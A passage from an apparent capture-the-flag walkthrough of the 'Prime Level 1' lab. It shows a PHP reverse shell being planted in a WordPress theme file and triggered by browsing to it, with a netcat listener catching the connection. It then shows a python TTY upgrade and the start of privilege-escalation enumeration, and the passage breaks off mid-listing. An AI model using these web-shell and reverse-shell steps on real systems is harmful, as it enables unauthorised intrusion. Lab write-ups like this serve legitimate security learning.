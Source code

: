 A PHP reverse shell code can be found on Kali,
/usr/share/webshells/php/php-reverse-shell.php

Using gedit to open the file and copy the shell code.

```root@kali:~# gedit /usr/share/webshells/php/php-reverse-shell.php```

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Prime%20Level%201/Images/2eada3c53aa8068a86df88141b093b99.png?raw=true)

PHP reverse shell code can be inserted into this php file.

Notice that IP address variable must be changed to the IP of the attacking
system and port variable must be changed to the port that is listening on the
attacking system.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Prime%20Level%201/Images/a84101f566957f1040ce8641a31ad330.png?raw=true)

Once the changes are made the file can be saved.

The file has be browsed to execute the reverse shell. (Theme files usually
reside in /wp-content/themes directory). The theme’s name is twentynineteen so
the URL syntax would be as following:

```http://<ip address>/wordpress/wp-content/themes/twentynineteen/secret.php```

Next, on the Kali machine netcat needs to be fired up to listen on the desired
port and when the file is browsed the reverse shell is obtained.

```
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.20.144] from (UNKNOWN) [192.168.20.149] 57386
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 16:02:36 up  1:13,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Privilege Escalation
--------------------

Once the low privilege shell is obtained it needs to be upgraded to a TTY shell,
so commands such as su can be used. This is achieved with the following python
command:

```
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$
```

### Enumeration

From previous enumeration it’s known that home directory of user saket is
available. Let’s enumerate it further.


```
www-data@ubuntu:/var/www$ cd /home/saket
cd /home/saket
www-data@ubuntu:/home/saket$ ls -laht
ls -laht
total 36K